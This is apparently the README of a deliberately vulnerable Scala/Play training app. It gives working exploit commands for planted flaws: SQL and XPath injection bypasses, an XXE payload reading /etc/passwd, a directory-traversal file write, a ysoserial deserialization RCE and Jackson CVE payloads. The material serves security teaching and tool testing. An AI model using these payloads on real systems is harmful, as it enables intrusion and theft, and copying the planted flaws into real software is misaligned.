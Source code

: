 # Package

```
$ sbt stage
$ file ./target/helloshiftleft-play-jpa-scala-0.0.1-SNAPSHOT.jar
```

# Run

```
$ sbt run
```

# Http routes

See routes at [config/routes](config/routes).    

Use `localhost` as host name in the URLs

To interact with the endpoints use `curl` (or any other tool)

+ GET /account
+ GET /createCustomer
+ POST /account `curl localhost:8082/account -X POST -H "Content-Type: application/json" --data '{ "accountNumber": 1337, "routingNumber": 1222 }'`
+ GET /customers 
+ GET /customersXML  


# Package standalone (not officially supported by Play)

```
$ sbt assembly
$ java -Dplay.server.http.port="8082" -Dplay.server.http.address="127.0.0.1" -jar ./target/helloshiftleft-play-jpa-scala-assembly-0.0.1-SNAPSHOT.jar
```

# Vulnerability coverage table

The following table shows vulns category implemented in HSL grouped according to OWASP standards.

| OWASP category              | Vuln description                                  |
| ----------------------------|-------------------------------------------------- |
| A1-Injection                | Sql Injection                                     |
| A2-Broken Auth              | missing HttpOnly Cookie                           |
| A3-Sensitive Data Exposure  | Weak crypto, clear text storage of sensitive data |
| A4-XXE                      | XML XXE attack                                    |
| A5-Broken Access Control    | Path traversal                                    |
| A6-Sec misconfiguration     | not present yet                                   |
| A7-XSS                      | reflected XSS attack                              |
| A8-Insecure deserialization | Java deserialization attacks                      |
| A9-Known Vulnerabilities    | we use a vulnerable version of jackson            |

# A1 SQL Injection

There are two SQL injection vulns, the first one in `getRawCustomer` and the second in `getRawCustomerByName`.
To exploit it you can interact with the endpoint in this way:

Normal behavior: ```curl "http://localhost:8082/rawcustomersbyname/Joe"```

Exploit: ```curl "http://localhost:8082/rawcustomersbyname/Joe%20'%20or%20'1'='1"```

# A2 missing HttpOnly cookie flag

The endpoint `/admin/login` reachable via POST request, does not set the cookie as HttpOnly.

# A4 XXE

The endpoint `/customersXML` suffers from an XXE vulnerabily.

```
curl  \
  --header "Content-type: application/xml" \
  --request GET \
  --data '<name>Guillaume</name>' \
  http://localhost:8082/customersXML
```

To exploit the XXE modify the payload above with the malicious one below:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <firstName>John</firstName>
 <name>&ent;</name>
</userInfo>
```
Then you can use the following `curl` command to trigger the vulnerability:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: localhost:8082' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-GB,en;q=0.5' -H $'Accept-Encoding: gzip;q=0,deflate,sdch' -H $'Content-type: application/xml' -H $'Cookie:' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Content-Length: 168' \
    --data-binary $'<!--?xml version=\"1.0\" ?-->\x0d\x0a<!DOCTYPE replace [<!ENTITY ent SYSTEM \"file:///etc/passwd\"> ]>\x0d\x0a<userInfo>\x0d\x0a <firstName>John</firstName>\x0d\x0a <name>&ent;</name>\x0d\x0a</userInfo>' \
    $'http://localhost:8082/customersXML'
```


As result, the output will contain the passwd file.

# A5 directory traversal

`saveSettings` contains a arbitrary file write vulnerability. The file relative path is extracted from the attacker controllable cookies.
To exploit the vuln use the `filewriteexploit.py` script, as shown below:

```
python dirtraversalexploit.py http://localhost:8082/saveSettings ../../../../../../../tmp/pwn asd
```
The above script will send the payload to the url specified as first argument, the relative path that will be used for the 
directory traversal is passed as second argument.

# A7 XSS

There is a reflected XSS in `/consumers/`. To exploit it visit the `/createConsumer` page and specify any malicious payload in the form.

# A8 Java deserialization 

`/unmarsh` retrives the `lol` parameter from the received POST request, decode64 its values and finally calls `readObject`.
To create the payload run `DoSerializeRCE` and then use its output to build the POST query as following:

```
curl localhost:8082/unmarsh  -X POST --data-urlencode "lol=rO0ABXNyABNEb1NlcmlhbGl6ZVJDRSRFdmlsx/E6K8+e2zIDAAB4cHg="
``` 
```
curl localhost:8082/unmarsh -X POST --data-urlencode "lol=`cat commons5.b64`"
```

```
java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 /usr/bin/xcalc > commons5.bin
base64 commons5.bin | tr -d '\040\011\012\015'> commons5.b64
```

# A9 Jackson

The route `/bean1599` accepts POST operations and deserializes via Jackson the received body data. 
The file `exploit.json` contains the payload for CVE-2017-17485. 
Instead, the file `exploitold.json` provides the payload for CVE-2017-7525.

To run the exploit, first run the server with `sbt run` then type following commands:

```
export payload=`cat exploit.json`
curl localhost:8082/bean1599 -X POST -H "Content-Type: application/json" -d "$payload"
``` 

+ https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
+ https://github.com/irsl/jackson-rce-via-spel




# XPath injection

After starting the service it is possible to bypass the credential check with this URL: http://localhost:8082/checkAccount/admin/x'%20or%20'1'='1 . This results in the following xpath query: `//user[username/text()='admin' and password/text()='x' or '1'='1']` and the message `Hello admin`.

If you provide wrong credentials the handler returns `Error with your credentials!`. Syntax errors as http://localhost:8082/checkAccount/admin/x' result in the error message `A server error occurred: javax.xml.xpath.XPathExpressionException: javax.xml.transform.TransformerException: misquoted literal... expected single quote!` 



